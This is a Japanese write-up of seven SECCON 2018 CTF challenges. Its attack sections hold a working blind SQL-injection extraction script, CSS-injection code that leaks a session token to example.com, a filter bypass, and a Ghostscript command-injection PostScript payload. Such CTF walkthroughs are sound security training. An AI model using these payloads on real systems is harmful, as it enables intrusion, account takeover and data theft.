




チーム Bluemermaid で 10 月 27 日から 10 月 28 日にかけて開催された [SECCON 2018 Online CTF](https://score-quals.seccon.jp) に参加しました。最終的にチームで 3507 点を獲得し、順位は得点 653 チーム中 17 位 (国内 6 位?) でした。うち、私は 8 問のフラグを通して 1935 点を入れました。

## [Crypto 260] mnemonic

> Read me.
> 添付ファイル: mnemonic.txt

`mnemonic.txt` は以下のような内容でした。

```json
{
    "japanese": [
	[
	    "d3a02b9706507552f0e70709f1d4921275204365b4995feae1d949fb59c663cc",
	    "ふじみ　あさひ　みのう　いっち　いがく　とない　はづき　ますく　いせえび　たれんと　おとしもの　おどろかす　ことし　おくりがな　ちょうし　ちきゅう　さんきゃく　こんとん　せつだん　ちしき　ぬいくぎ　まんなか　たんい　そっと",
	    "338c161dbdb47c570d5d75d5936e6a32178adde370b6774d40d97a51835d7fec88f859e0a6660891fc7758d451d744d5d3b1a1ebd1123e41d62d5a1550156b1f"
	],
	[
	    "dfc9708ac4b4e7f67be6b8e33486482cb363e81967a1569c6fd888b088046f7c",
	    "ほんやく　ごうきゅう　おさめる　たこやき　ごかん　れいぎ　やせる　ふるい　まんなか　てんない　だんろ　さうな　きぼう　よくぼう　しのぐ　よけい　こんき　みうち　らくご　いわかん　いこく　あたためる　のはら　たぶん",
	    "bdadda5bbff97eb4fda0f11c7141bc3ce3de0fef0b2e4c47900858cec639c10187aee4695b1ba462b1dd34b170b62801e68c270b93af62629f4964947a620ed9"
	],
	[
	    "c0f...",
	    "???　とかす　なおす　よけい　ちいさい　さんらん　けむり　ていど　かがく　とかす　そあく　きあい　ぶどう　こうどう　ねみみ　にあう　ねんぐ　ひねる　おまいり　いちじ　ぎゅうにく　みりょく　ろしゅつ　あつめる",
	    "e9a..."
	],
    ],
    "flag": "SECCON{md5(c0f...)}"
}
```

不思議な文字列ですが、[@hikalium](https://twitter.com/hikalium) さんによって [BIP39](https://github.com/bitcoin/bips/blob/master/bip-0039.mediawiki) の日本語ワードリストを利用したニーモニックであることが分かっていました。また、3 つ目の `???` という単語は `はいれつ` であることも分かっていました。

[trezor/python-mnemonic](https://github.com/trezor/python-mnemonic) というライブラリを使い、以下のようなソースコードでニーモニックからエントロピーに変換するとフラグが得られました。

```python
# coding: utf-8
import hashlib
import mnemonic
s = u'はいれつ とかす なおす よけい ちいさい さんらん けむり ていど かがく とかす そあく きあい ぶどう こうどう ねみみ にあう ねんぐ ひねる おまいり いちじ ぎゅうにく みりょく ろしゅつ あつめる'
m = mnemonic.Mnemonic('japanese')
res = ''.join(chr(c) for c in m.to_entropy(s)).encode('hex')
print 'SECCON{' + hashlib.md5(res).hexdigest() + '}'
```

```
$ python2 solve.py
SECCON{cda2cb1742d1b6fc21d05c879c263eec}
```

```
SECCON{cda2cb1742d1b6fc21d05c879c263eec}
```

## [Reversing 102] Runme

> Run me.
> 添付ファイル: runme.exe_b834d0ce1d709affeedb1ee4c2f9c5d8ca4aac68

添付ファイルがどんなものか確認してみます。

```
>file runme.exe_b834d0ce1d709affeedb1ee4c2f9c5d8ca4aac68
runme.exe_b834d0ce1d709affeedb1ee4c2f9c5d8ca4aac68: PE32 executable (console) Intel 80386, for MS Windows
```

32 ビットの PE ファイルのようです。[IDA の Freeware 版](https://www.hex-rays.com/products/ida/support/download_freeware.shtml)を使って逆アセンブルしてみましょう。

```
public start
start proc near

var_4= dword ptr -4

push    ebp
mov     ebp, esp
push    esi
call    ds:GetCommandLineA
mov     [ebp+var_4], eax
push    eax
push    22h             ; uExitCode
call    sub_401034
push    40h             ; uType
push    offset Caption  ; "Congratz"
push    offset Text     ; "You know the flag!"
push    0               ; hWnd
call    ds:MessageBoxA
call    ds:ExitProcess
```

`sub_401034` という関数の中身を追います。

```
sub_401034 proc near

arg_0= byte ptr  8
arg_4= dword ptr  0Ch

push    ebp
mov     ebp, esp
push    esi
movzx   ecx, [ebp+arg_0]
mov     edx, [ebp+arg_4]
movzx   edx, byte ptr [edx]
cmp     ecx, edx
jnz     loc_4018BB
mov     ecx, 1
mov     edx, [ebp+arg_4]
inc     edx
push    edx
push    43h
call    sub_401060
pop     esi
mov     esp, ebp
pop     ebp
retn
```

`0x22 (")` と `GetCommandLineA` の 1 文字目を比較し、もし一致していれば 1 文字進めて `sub_401060` という関数に `0x43 (C)` と共に引数として渡しているようです。`sub_401060` の構造も `sub_401034` とほとんど同じなので、単純に比較されている文字を集めて結合してやればよさそうです。

```
>objdump -d runme.exe_b834d0ce1d709affeedb1ee4c2f9c5d8ca4aac68 -M intel | grep "push   0x.\{2\}$"
  40100e:       6a 22                   push   0x22
  401015:       6a 40                   push   0x40
  401054:       6a 43                   push   0x43
  401080:       6a 3a                   push   0x3a
  4010ac:       6a 5c                   push   0x5c
  4010d8:       6a 54                   push   0x54
  401104:       6a 65                   push   0x65
  401130:       6a 6d                   push   0x6d
  40115c:       6a 70                   push   0x70
  401188:       6a 5c                   push   0x5c
  4011b4:       6a 53                   push   0x53
  4011e0:       6a 45                   push   0x45
  40120c:       6a 43                   push   0x43
  401238:       6a 43                   push   0x43
  401264:       6a 4f                   push   0x4f
  401290:       6a 4e                   push   0x4e
  4012bc:       6a 32                   push   0x32
  4012e8:       6a 30                   push   0x30
  401314:       6a 31                   push   0x31
  401340:       6a 38                   push   0x38
  40136c:       6a 4f                   push   0x4f
  401398:       6a 6e                   push   0x6e
  4013c4:       6a 6c                   push   0x6c
  4013f0:       6a 69                   push   0x69
  40141c:       6a 6e                   push   0x6e
  401448:       6a 65                   push   0x65
  401474:       6a 2e                   push   0x2e
  4014a0:       6a 65                   push   0x65
  4014cc:       6a 78                   push   0x78
  4014f8:       6a 65                   push   0x65
  401524:       6a 22                   push   0x22
  401550:       6a 20                   push   0x20
  40157c:       6a 53                   push   0x53
  4015a8:       6a 45                   push   0x45
  4015d4:       6a 43                   push   0x43
  401600:       6a 43                   push   0x43
  40162c:       6a 4f                   push   0x4f
  401658:       6a 4e                   push   0x4e
  401684:       6a 7b                   push   0x7b
  4016b0:       6a 52                   push   0x52
  4016dc:       6a 75                   push   0x75
  401708:       6a 6e                   push   0x6e
  401734:       6a 6e                   push   0x6e
  401760:       6a 31                   push   0x31
  40178c:       6a 6e                   push   0x6e
  4017b8:       6a 36                   push   0x36
  4017e4:       6a 5f                   push   0x5f
  401810:       6a 50                   push   0x50
  40183c:       6a 34                   push   0x34
  401864:       6a 37                   push   0x37
  40188c:       6a 68                   push   0x68
  4018b4:       6a 7d                   push   0x7d
  4018bb:       6a 40                   push   0x40
```

Python 2 で `"22433a5c54656d705c534543434f4e323031384f6e6c696e652e6578652220534543434f4e7b52756e6e316e365f503437687d".decode('hex')` を実行すると `"C:\Temp\SECCON2018Online.exe" SECCON{Runn1n6_P47h}` という文字列が得られました。

```
SECCON{Runn1n6_P47h}
```

## [Reversing 362] block

> BREAK THE BLOCK!
> Hint: Real answer flag is not easy to get it, if your post flag is incorrect, it is not real one. Please try to analyze more.
> 添付ファイル: block.apk_f2f0a7d6a3b3e940ca7cd5a3f7c5045eb57f92cf

アーカイバで添付ファイルの構造を覗いてみると `classes.dex` や `resources.arsc` のようなファイルがあり、apk という拡張子の通り Android のアプリケーションだと分かります。Android エミュレータである [NoxPlayer](https://jp.bignox.com/) を使ってインストールと実行をしてみましょう。



Unity のロゴが表示された後、回転するフラグとその上に覆いかぶさる四角が表示されました。この四角を消せばおそらくフラグが見えるようになるはずです。

まず [Apktool](https://ibotpeaches.github.io/Apktool/) というツールを使って `apktool d block.apk` で apk ファイルを展開しておきます。展開後のフォルダを眺めていると、`assets/bin/Data` フォルダの下に `level0` (シーンに関連するファイル?) や `sharedassets0.assets` (アセットに関連するファイル?) のような Unity っぽいファイルが多数確認できます。

Unity Assets Bundle Extractor というツールを使って `level0` を見てみると、`GameObject Cube` という `GameObject` が確認できます。これを削除すると恐らく先程の画面上の四角も消えているはずです。削除後保存し、`apktool e block` で展開した apk ファイルを再度構築します。`jarsigner -verbose -signedjar block-signed.apk -keystore ~/.android/debug.keystore -storepass android -keypass android block.apk androiddebugkey` のようにして署名を行い、インストールと実行をしてみます。



フラグが得られました。

```
SECCON{4R3_Y0U_CH34+3R?}
```

## [Reversing 434] shooter

> shooter
> Enjoy the game!
> 添付ファイル: shooter.apk_d0d2ed9e7ba3c83354cbbf7ccf82541730b14a72

block と同じ方法で調べると、添付ファイルがまた Android のアプリケーションだと分かります。インストールと実行をしてみましょう。



Unity のロゴが表示された後、飛んでくる的をひたすらクリックするゲームが始まりました。繰り返しミスをするとゲームオーバーとなり、ランキングへの登録画面へと遷移しました。

[mitmproxy](https://mitmproxy.org/) を使ってランキング登録時にどのような通信がされているか見てみると、以下のように API サーバに POST がされていることが確認できました。

```
POST http://shooter.pwn.seccon.jp/api/v1/scores HTTP/1.1
X-Unity-Version:    2018.2.11f1
Content-Type:    application/x-www-form-urlencoded
User-Agent:    Dalvik/1.6.0 (Linux; U; Android 4.4.2; SM-G930K Build/NRD90M)
Host:    shooter.pwn.seccon.jp
Connection:    Keep-Alive
Accept-Encoding:    gzip
Content-Length:    19

score=402&name=neko
```

他に API のエンドポイントがないか等確認するため、apk ファイルの解析をしていきましょう。`apktool d shooter.apk` で apk ファイルを展開しファイルを眺めていると、`assets/bin/Data/Managed/Metadata/global-metadata.dat` に以下のような文字列が含まれていることが確認できました。

```
shooter.pwn.seccon.jpstaging.shooter.pwn.seccon.jpdevelop.shooter.pwn.seccon.jp/admin
```

改行を入れてみます。

```
shooter.pwn.seccon.jp
staging.shooter.pwn.seccon.jp
develop.shooter.pwn.seccon.jp
/admin
```

上から順に、本番環境とステージング環境、開発環境のドメイン、それから管理用ページのパスでしょうか。3 つのドメインにそれぞれ `/admin` を結合してアクセスしてみると、本番環境と開発環境では 403 エラー、そしてステージング環境では管理ページへのログインフォームが表示されました。

ログインフォームにはログイン ID とパスワードの入力欄があります。試しに `admin` / `admin` を入力してみましたが当然ログインに失敗します。

ログインフォームといえば SQL インジェクションです。パスワードに `'` を入力してみると 500 エラーが発生しました。`''` では 500 エラーが発生しないので、恐らく SQL インジェクションの脆弱性が存在しています。…が、`' or 1 or '` を入力してみてもログインできません。アプリケーション側でパスワードをチェックしているのでしょうか。

どのような RDBMS が使われているかチェックします。`' or sqlite_version() or '` の場合には 500 エラーが発生しますが、`' or @@version or '` の場合には 500 エラーが発生しません。恐らく MySQL が使われているのでしょう。

さて、どうやって情報を抜き取ればいいのでしょうか。こういう場合に使えるのがエラーを使う Error-based SQL インジェクションです。`' or extractvalue(0x0a, case when 1 then 0x40 else 0x2f end) or '` を入力すると 500 エラーが発生しますが、`' or extractvalue(0x0a, case when 0 then 0x40 else 0x2f end) or '` の場合には発生しません。これで 1 回の試行ごとに 1 ビットの情報が得られます。

では、簡単に情報を抜き出せるようにスクリプトを用意しましょう。

```python
import requests
import re

URL1 = 'http://staging.shooter.pwn.seccon.jp/admin/sessions/new'
URL2 = 'http://staging.shooter.pwn.seccon.jp/admin/sessions'

_pattern = r'<input type="hidden" name="authenticity_token" value="(.+?)"'
def init_session():
    sess = requests.Session()
    r = sess.get(URL1)
    c = r.content.decode('ascii')
    return sess, re.findall(_pattern, c)[0]

def request(s):
    sess, token = init_session()
    r = sess.post(URL2, data={
        'utf8': '\u2713'.encode('utf-8'),
        'authenticity_token': token,
        'login_id': 'admin',
        'password': s,
        'commit': 'Login'
    })
    return r.status_code

_template = "' or extractvalue(0x0a, case when {} then 0x40 else 0x2f end) or '"
def exploit(payload, debug=False):
    res = ''
    i = 1
    while True:
        c = 0
        for j in range(7):
            if request(_template.format(payload.format(i, 1 << j))) == 500:
                c |= 1 << j
        res += chr(c)
        if debug:
            print(res)
        if c == 0:
            break
        i += 1
    print(res)
```

`exploit("ord(substr(@@version, {}, 1)) & {}")` を実行してみると `5.7.19` という MySQL のバージョンが得られました。

`information_schema.tables` からデータベース上に存在しているテーブルの一覧を取得してみましょう。`exploit('ord(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), {}, 1)) & {}')` を実行すると `ar_internal_metadata,flags,managers,schema_migrations,scores` が得られました。

`flags` というテーブルが怪しそうです。`information_schema.columns` からこのテーブルのカラム名を取得してみましょう。`exploit("ord(substr((select group_concat(column_name) from information_schema.columns where table_name='flags'), {}, 1)) & {}")` を実行すると `id,value,created_at,updated_at` が得られました。

最後に `flags` からレコードを取得します。`exploit("ord(substr((select group_concat(id, ':', value) from flags), {}, 1)) & {}")` を実行すると `1:SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}` が得られました。

```
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}
```

## [Web 248] GhostKingdom

> http://ghostkingdom.pwn.seccon.jp/FLAG/

### XSS パート

与えられた URL にアクセスすると、以下のようなメッセージが表示されました。

```
FLAG is somewhere in this folder.   GO TO TOP
```

`FLAG` というフォルダの中に推測できないファイル名でフラグが格納されていそうです。リンクからトップページに移動すると、以下のようなフォームでユーザの登録ページとログインページが表示されました。

```html
<form action="?" method="get"><h2>Login (from internet)</h2>
<table border="0">
<tr><td>User:</td><td><input type="text" name="user"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass"></td></tr>
</table><input type="hidden" name="action" value="login">
<input type="submit" value="Login" class="btn">
</form>
```

不思議なことに GET パラメータを使っています。

適当にユーザ登録をしてログインすると、以下のようなメニューが表示されました。

- Message to admin
- Take a screenshot
- Upload image   * Only for users logged in from the local network

Message to admin については [@hikalium](https://twitter.com/hikalium) さんによってメッセージのプレビュー画面で CSS インジェクションが可能であることが分かっていました。例えば `/?action=msgadm2&css=Ym9keSB7IGZvbnQtZmFtaWx5OiAiQ29taWMgU2FucyBNUyI7IH0=&msg=test` であれば body のフォントが Comic Sans に変化します。

このプレビュー画面には、メッセージの送信を行うフォーム部分でもう一つ気になる仕様があります。

```html
<form action="?" method="get"><style>body { font-family: "Comic Sans MS"; }</style>
<span class="msg">Message: test</span>
<input type="hidden" name="csrf" value="(CSRF トークン)">
<input type="hidden" name="action" value="msgadm3">
<input type="submit" class="btn" value="Send to admin">
```

CSRF トークンを調べてみると Cookie の `CGISESSID` (セッション ID) と一致しています。もし他人のこれを盗み出すことができればそのアカウントを乗っ取ることができそうですが、なにか方法はあるでしょうか。

CSS には[属性セレクタ](https://developer.mozilla.org/ja/docs/Web/CSS/Attribute_selectors)というセレクタが存在しており、これによって属性の値によってスタイルを適用させることができます。上記の通り、CSRF トークンは `input` 要素の `value` 属性の値として格納されています。以下のようにすれば、例えばこの値の 1 文字目が `1` から始まる場合に `http://example.com/?1` へ HTTP リクエストが送られるように仕向けることができます。

```css
input[name=csrf][value^="0"] { background: url("http://example.com/?0"); }
input[name=csrf][value^="1"] { background: url("http://example.com/?1"); }
input[name=csrf][value^="2"] { background: url("http://example.com/?2"); }
input[name=csrf][value^="3"] { background: url("http://example.com/?3"); }
```

Take a screenshot について調べてみます。URL を与えるとそのページのスクリーンショットを撮って表示してくれるようですが、例えば `http://127.0.0.1` のような URL を送ると `You can not use URLs that contain the following keywords: 127, ::1, local` というエラーが表示されてしまいます。

では `127.0.0.1` に解決されるドメインを使った場合にはどうでしょう。`http://loopback.jp` を送信すると以下のように制限をバイパスすることができました。



ログインが GET で行われることや、Message to admin や Take a screenshot の脆弱性を使って、Upload image の機能が使えるようにローカルネットワークからのログインが行われた状態のセッション ID を入手してみましょう。

ログイン後、Message to admin の CSS インジェクションの脆弱性を使って 1 文字ずつセッション ID を抜き出す HTML は以下のようになりました。

```html
<script>
var im = new Image();
var s = 'aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iMCJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vPzAiKTsgfWlucHV0W25hbWU9ImNzcmYiXVt2YWx1ZV49IjEiXSB7IGJhY2tncm91bmQ6IHVybCgiaHR0cDovL2V4YW1wbGUuY29tLz8xIik7IH1pbnB1dFtuYW1lPSJjc3JmIl1bdmFsdWVePSIyIl0geyBiYWNrZ3JvdW5kOiB1cmwoImh0dHA6Ly9leGFtcGxlLmNvbS8/MiIpOyB9aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iMyJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vPzMiKTsgfWlucHV0W25hbWU9ImNzcmYiXVt2YWx1ZV49IjQiXSB7IGJhY2tncm91bmQ6IHVybCgiaHR0cDovL2V4YW1wbGUuY29tLz80Iik7IH1pbnB1dFtuYW1lPSJjc3JmIl1bdmFsdWVePSI1Il0geyBiYWNrZ3JvdW5kOiB1cmwoImh0dHA6Ly9leGFtcGxlLmNvbS8/NSIpOyB9aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iNiJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vPzYiKTsgfWlucHV0W25hbWU9ImNzcmYiXVt2YWx1ZV49IjciXSB7IGJhY2tncm91bmQ6IHVybCgiaHR0cDovL2V4YW1wbGUuY29tLz83Iik7IH1pbnB1dFtuYW1lPSJjc3JmIl1bdmFsdWVePSI4Il0geyBiYWNrZ3JvdW5kOiB1cmwoImh0dHA6Ly9leGFtcGxlLmNvbS8/OCIpOyB9aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iOSJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vPzkiKTsgfWlucHV0W25hbWU9ImNzcmYiXVt2YWx1ZV49ImEiXSB7IGJhY2tncm91bmQ6IHVybCgiaHR0cDovL2V4YW1wbGUuY29tLz9hIik7IH1pbnB1dFtuYW1lPSJjc3JmIl1bdmFsdWVePSJiIl0geyBiYWNrZ3JvdW5kOiB1cmwoImh0dHA6Ly9leGFtcGxlLmNvbS8/YiIpOyB9aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iYyJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vP2MiKTsgfWlucHV0W25hbWU9ImNzcmYiXVt2YWx1ZV49ImQiXSB7IGJhY2tncm91bmQ6IHVybCgiaHR0cDovL2V4YW1wbGUuY29tLz9kIik7IH1pbnB1dFtuYW1lPSJjc3JmIl1bdmFsdWVePSJlIl0geyBiYWNrZ3JvdW5kOiB1cmwoImh0dHA6Ly9leGFtcGxlLmNvbS8/ZSIpOyB9aW5wdXRbbmFtZT0iY3NyZiJdW3ZhbHVlXj0iZiJdIHsgYmFja2dyb3VuZDogdXJsKCJodHRwOi8vZXhhbXBsZS5jb20vP2YiKTsgfQ==';
im.onerror = function () {
  location.href = 'http://loopback.jp/?msg=test&action=msgadm2&css=' + s;
};
im.src = 'http://loopback.jp/?user=(ユーザ名)&pass=(パスワード)&action=login';
</script>
```

`s` は、以下のスクリプトを使って生成された、CSRF トークンが `0` から `9` あるいは `a` から `f` のどの文字から始まっているか確認する CSS になっています。

```python
import base64

_template = 'input[name="csrf"][value^="{0}"] X background: url("http://example.com/?{0}"); Y'
def f(s):
    res = ''
    for c in '0123456789abcdef':
        res += _template.format(s + c).replace('X', '{').replace('Y', '}')
    return base64.b64encode(res.encode())
```

先程の HTML を適当な場所にアップロードして Take a screenshot に投げると、セッション ID の 1 文字目が分かりました。これを 22 回繰り返すとセッション ID の全体が分かりました。

Cookie にこれをセットしてメニューを確認すると Upload image が有効になっていました。

### OS コマンドインジェクションパート

Upload image は JPEG がアップロードできる機能のようです。…が、`circle.eps` のような中身も拡張子も EPS であるファイルであってもアップロードできるようです。また、`/ghostMagick.cgi?action=convert` というアップロードした画像を GIF に変換してくれる機能へのリンクもあります。

`ghostMagick` という文字列から思い出されるのは [ghostscript にあった OS コマンドインジェクションの脆弱性](https://bugs.chromium.org/p/project-zero/issues/detail?id=1640)です。試しに以下のようなファイルをアップロードしてみましょう。

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

実行してみるとユーザの情報が表示されました。

`ls -la /var/www/html/FLAG` を実行すると `FLAGflagF1A8.txt` というファイルの存在が確認できました。

`http://ghostkingdom.pwn.seccon.jp/FLAG/FLAGflagF1A8.txt` にアクセスするとフラグが得られました。

```
SECCON{CSSinjection+GhostScript/ImageMagickRCE}
```

## [QR 222] QRChecker

> QR Checker
> http://qrchecker.pwn.seccon.jp/
> 添付ファイル: qr.cgi_93bb1a11da93ab2a50e61c7da1e62b34d316bc9b

添付ファイルは以下のような Python のコードでした。

```python
#!/usr/bin/env python3
import sys, io, cgi, os
from PIL import Image
import zbarlight
print("Content-Type: text/html")
print("")
codes = set()
sizes = [500, 250, 100, 50]
print('<html><body>')
print('<form action="' + os.path.basename(__file__) + '" method="post" enctype="multipart/form-data">')
print('<input type="file" name="uploadFile"/>')
print('<input type="submit" value="submit"/>')
print('</form>')
print('<pre>')
try:
	form = cgi.FieldStorage()
	data = form["uploadFile"].file.read(1024 * 256)
	image= Image.open(io.BytesIO(data))
	for sz in sizes:
		image = image.resize((sz, sz))
		result= zbarlight.scan_codes('qrcode', image)
		if result == None:
			break
		if 1 < len(result):
			break
		codes.add(result[0])
	for c in sorted(list(codes)):
		print(c.decode())
	if 1 < len(codes):
		print("SECCON{" + open("flag").read().rstrip() + "}")
except:
	pass
print('</pre>')
print('</body></html>')
```

QR コードをアップロードして、4 回のリサイズの内に一度でも読み取られる文字列が変わればフラグが得られるようです。

[『きまぐれQRコード』ができます！？【続報】気を付けろ！QRコードに脆弱性？(森井昌克) - 個人 - Yahoo!ニュース](https://news.yahoo.co.jp/byline/moriimasakatsu/20180629-00087130/)という記事を参考に怪しい QR コードを作ってみます。


これをアップロードするとフラグが得られました。

```
http://srv.prof-morii.net/~lab
http://srv.prof-morii.net/~lob
SECCON{50d7bc7542b5837a7c5b94cf2446b848}
```

```
SECCON{50d7bc7542b5837a7c5b94cf2446b848}
```

## [Forensics 145] History

> History Check changed filename. file:J.zip_4c7050d70c9077b8c94ce0d76effcb8676bed3ba
> 添付ファイル: J.zip_4c7050d70c9077b8c94ce0d76effcb8676bed3ba

与えられた zip ファイルを展開すると、`J` という、様々なファイル名が含まれているバイナリファイルが出てきました。`strings` でそれっぽいファイルがないか探してみましょう。

```
$ strings -a J -e l | grep SEC | uniq
...
<SECURITY.LOG1
<SECURITY.LOG2
<SEC.txt
<SECURITY.LOG1
<SECURITY
...
```

`SEC.txt` が怪しそうです。`.txt` で `grep` してみましょう。

```
$ strings -a J -e l | grep .txt | uniq
...
<SEC.txt
<CON{.txt
<F0r.txt
<tktksec.txt
<F0r.txt
<ensic.txt
<s.txt
<_usnjrnl.txt
<2018}.txt
...
```

フラグが出てきました。

```
SECCON{F0rensics_usnjrnl2018}
```